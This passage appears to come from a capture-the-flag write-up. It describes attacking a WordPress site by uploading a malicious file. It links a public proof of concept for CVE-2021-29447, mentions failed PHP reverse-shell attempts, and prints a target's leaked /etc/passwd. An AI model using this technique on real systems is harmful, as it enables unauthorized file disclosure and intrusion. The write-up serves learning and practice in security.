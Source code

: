### CVE-2021-29447
I realized right away there must be something a malicious file to upload in order to get a shell or leak some data. I tried crafting several PHP reverse shells with the `magic bytes` of a PNG to pass Wordpress's file check, but these all failed. Eventually, I found [CVE-2021-29447](https://github.com/motikan2010/CVE-2021-29447).

![cve](images/cve.png)

Decoded gives:

```sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
```